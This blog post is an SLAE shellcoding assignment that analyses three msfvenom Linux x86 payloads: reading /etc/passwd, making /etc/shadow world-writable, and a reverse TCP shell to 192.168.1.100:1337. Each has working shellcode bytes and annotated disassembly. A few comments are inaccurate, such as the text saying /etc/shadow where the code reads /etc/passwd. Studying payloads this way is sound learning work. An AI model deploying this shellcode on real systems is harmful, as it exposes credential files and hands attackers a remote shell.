 ```yaml
---
layout: post
title: SLAE 0x5 - Assignment 5: Analyze at least 3 shellcode from msfpayload linux/x86
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to demonstrate Linux shellcoding knowledge by analyzing 3 different shellcode from msfpayload/msfvenom linux/x86 category.

# Methods

I used radare2 with Cutter to analyze the shellcode and display the graph call. No other tools or debuggers were harmed during the process.

# linux/x86/read_file

Simple payload that reads up to 4096 bytes from a file and writes it out onto stdout.

    root@kali:~# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 73 bytes
    Final size of c file: 331 bytes
    unsigned char buf[] = 
    "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
    "\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
    "\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
    "\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
    "\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";

As this shellcode doesn't do a lot of things, it's both simple and small in size. By default msfvenom tries to read /etc/shadow, which so I left it as is. The shellcode relies on JMP-CALL-POP to push */etc/shadow* on the stack, then it starts executing the main part of the shellcode. First it calls SYS_OPEN on /etc/passwd which returns a file descriptor. Using the file descriptor, SYS_READ reads up to 4096 bytes from the file and pushes it onto the stack. The syscall also returns the actual number of bytes read, which the SYS_WRITE call uses later to read the exact number of bytes from the stack. Finally, the shellcode uses SYS_EXIT to gracefully quit.

    / (fcn) fcn.00000000 20
    |   fcn.00000000 ();
    |       ,=< 0x00000000      jmp 0x38 ; jmp to set up /etc/passwd
    / (fcn) fcn.00000002 72
    |   fcn.00000002 ();
    |       |   0x00000002      mov eax, 5 ; sys_open
    |       |   0x00000007      pop ebx ; address of "/etc/passwd"
    |       |   0x00000008      xor ecx, ecx ; null out ECX
    |       |   0x0000000a      int 0x80 ; sys_open - returns file descriptor for file
    |       |   0x0000000c      mov ebx, eax ; move file descriptor into ebx
    |       |   0x0000000e      mov eax, 3 ; sys_read
    |       |   0x00000013      mov edi, esp ; moves stack pointer into edi
    |       |   0x00000015      mov ecx, edi ; moves stack pointer into ecx
    |       |   0x00000017      mov edx, 0x1000 ; size_t count: 4096 bytes max
    |       |   0x0000001c      int 0x80 ; sys_read - attempts to read 4096 bytes onto the stack and returns the number of bytes read
    |       |   0x0000001e      mov edx, eax ; number of read bytes => size_t count
    |       |   0x00000020      mov eax, 4 ; sys_write
    |       |   0x00000025      mov ebx, 1 ; 0x1 stdout
    |       |   0x0000002a      int 0x80 ; sys_write - write EDX number of bytes from the stack to stdout
    |       |   0x0000002c      mov eax, 1 ; sys_exit
    |       |   0x00000031      mov ebx, 0 ; 0x0 error code
    |       |   0x00000036      int 0x80 ; sys_exit
    |       `-> 0x00000038      call 2 ; call part of jmp-call-pop
    |           0x0000003d      das    ; /etc/passwd

**Graph:**

![linux/x86/read_file graph]({{"/content/posts/msfvenom-readpasswd.png" | absolute_url }}){: .center}

# linux/x86/chmod

This shellcode changes the permission settings for a target file. The default setting is to change the permissions of /etc/shadow to 0666.

    root@kali:~# msfvenom -p linux/x86/chmod -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 36 bytes
    Final size of c file: 177 bytes
    unsigned char buf[] = 
    "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
    "\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
    "\x80\x6a\x01\x58\xcd\x80";

As there is a syscall for chmod (SYS_CHMOD), this shellcode is rather simple. The shellcode pushes /etc/shadow and the required arguments onto the stack, does the syscall and quits gracefully with the SYS_EXIT call.

    / (fcn) fcn.00000000 36
    |   fcn.00000000 ();
    |           0x00000000      cdq    ; sets EDX 0 if EAX is positive
    |           0x00000001      push 0xf ; 15 ; 15 - sys_chmod
    |           0x00000003      pop eax ; sys_chmod
    |           0x00000004      push edx ; push 0x0
    |           0x00000005      call 0x16 ; pushes /etc/shadow address on the stack
    |           0x0000000a      das    ; /etc/shadow
    |       ,=< 0x0000000b      je 0x71 ; data
    |       |   0x0000000e      das    ; data
    |      ,==< 0x0000000f      jae 0x79 ; data
    |      ||   0x00000011      popal  ; data
    |      ||   0x00000012           .byte 0x64 ; data
    |      ||   0x00000013      outsd dx, dword [esi] ; data
    |      ||   0x00000014      ja 0x16 ; data
    |      ||   0x00000016      pop ebx ; pops /etc/shadow address into ebx
    |      ||   0x00000017      push 0x1b6 ; 438 ; octal 0666
    |      ||   0x0000001c      pop ecx ; mode_t mode
    |      ||   0x0000001d      int 0x80 ; sys_chmod
    |      ||   0x0000001f      push 1 ; 1 ; sys_exit
    |      ||   0x00000021      pop eax ; sys_exit => eax
    \      ||   0x00000022      int 0x80 ; sys_exit


**Graph:**

![linux/x86/chmod graph]({{"/content/posts/msfvenom-chmod.png" | absolute_url }}){: .center}

# linux/x86/shell_reverse_tcp 

This shellcode connects to a host on a given TCP port and opens a /bin/sh shell.

    root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp -f c LHOST=192.168.1.100 LPORT=1337
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 68 bytes
    Final size of c file: 311 bytes
    unsigned char buf[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x64\x68"
    "\x02\x00\x05\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
    "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
    "\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

This shellcode is very similar to the one I did in Assignment 2, but the order of the syscalls is different. First the code creates a socket with SYS_SOCKETCALL-SYS_SOCKET and connects it to stdin, stdout and stderr with DUP2. After these are done, SYS_SOCKETCALL-SYS_CONNECT connects to the remote address and then the code invokes a /bin/sh shell. Other than the different order, it's basically the same workflow as the shellcode in SLAE0x2.

        / (fcn) fcn.00000000 68
    |   fcn.00000000 ();
    |           0x00000000      xor  ebx, ebx ; EBX = 0x00
    |           0x00000002      mul  ebx ; EBX * EAX => EAX = 0x00
    |           0x00000004      push ebx ; any protocol
    |           0x00000005      inc  ebx ; 0x1 - SYS_SOCKET
    |           0x00000006      push ebx ; 0x1 SOCK_STREAM
    |           0x00000007      push 2 ; 2 ; 0x2 AF_INET
    |           0x00000009      mov  ecx, esp ; call args
    |           0x0000000b      mov  al, 0x66 ; 'f' ; 102 ; sys_socketcall
    |           0x0000000d      int  0x80 ; SYS_SOCKETCALL -> SYS_SOCKET
    |           0x0000000f      xchg eax, ebx ; move file descriptor into EBX
    |           0x00000010      pop  ecx ;  call args
    |       .-> 0x00000011      mov  al, 0x3f ; '?' ; 63 ; dup2
    |       :   0x00000013      int  0x80 ; SYS_DUP2
    |       :   0x00000015      dec  ecx ; 0x2 - stderr, 0x1 - stdout, 0x0 - stdin
    |       `=< 0x00000016      jns  0x11 ; jmp if sign is positive
    |           0x00000018      push 0x6401a8c0 ; 100 1 168 192 (decimal)
    |           0x0000001d      push 0x39050002 ; 0x3905 - 1337 0x0 0x2 - AF_INET
    |           0x00000022      mov  ecx, esp ; function args
    |           0x00000024      mov  al, 0x66 ; 'f' ; 102 ; SYS_SOCKETCALL
    |           0x00000026      push eax ; 0x1
    |           0x00000027      push ecx ; function args
    |           0x00000028      push ebx ; file descriptor
    |           0x00000029      mov  bl, 3 ; 0x3 - SYS_CONNECT
    |           0x0000002b      mov  ecx, esp
    |           0x0000002d      int  0x80 ; SYS_SOCKETCALL -> SYS_CONNECT
    |           0x0000002f      push edx ; 0x0
    |           0x00000030      push 0x68732f6e ; 'n/sh'
    |           0x00000035      push 0x69622f2f ; '//bi'
    |           0x0000003a      mov  ebx, esp ; //bin/sh0x00
    |           0x0000003c      push edx ; 0x0
    |           0x0000003d      push ebx ; file descriptor
    |           0x0000003e      mov  ecx, esp ; address of //bin/sh, 0x00
    |           0x00000040      mov  al, 0xb ; 11 ; SYS_EXECVE
    \           0x00000042      int  0x80 ; SYS_EXECVE //bin/sh


**Graph:**

![linux/x86/shell_reverse_tcp graph]({{"/content/posts/msfvenom-reversetcp.png" | absolute_url }}){: .center}

# Final Thoughts

A great little challenge, it was awesome to finally understand how some of the basic msfvenom shellcodes work. After looking at them, I feel that I would probably use them later instead of larger payloads.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).